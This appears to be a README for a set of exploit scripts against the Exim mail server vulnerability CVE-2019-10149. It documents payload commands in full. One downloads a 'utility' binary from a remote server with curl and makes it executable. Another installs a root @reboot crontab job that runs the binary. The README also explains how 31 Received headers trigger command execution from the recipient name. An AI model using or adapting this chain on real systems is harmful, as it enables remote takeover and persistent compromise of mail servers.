 # Payload files documentation

curl_call_to_place_file.py uses a payload derived from the command `"/bin/sh -c 'su - exploit -c \"curl -k -o /var/tmp/utility https://192.168.0.77:8080/utility\"; chmod +x /var/tmp/utility'"`. This command makes a curl call to our server, pulls the utility file off as our exploit user on the VM, and sets it to be executable. 

crontab-payload.py uses a payload derived from the command `"""/bin/sh -c \'(crontab -l 2>/dev/null; echo \"@reboot /var/tmp/utility\") | crontab -\'\""""`. We got this command from https://stackoverflow.com/questions/4880290/how-do-i-create-a-crontab-through-a-script. 
This updates the crontab for root on the target VM to include a job which starts /var/tmp/utility when the machine is rebooted.

In general, our two python files, adapted from https://github.com/Diefunction/CVE-2019-10149/blob/master/exploit.py with our custom payloads do the following:

Craft an email with all the standard commands needed for communication over SMTP. In the final crafted email, there are 31 received headers, one more than Exim's usually alotted 30, allowing us to enter the vulnerable part of the code which reads the command from the recipiant's name. 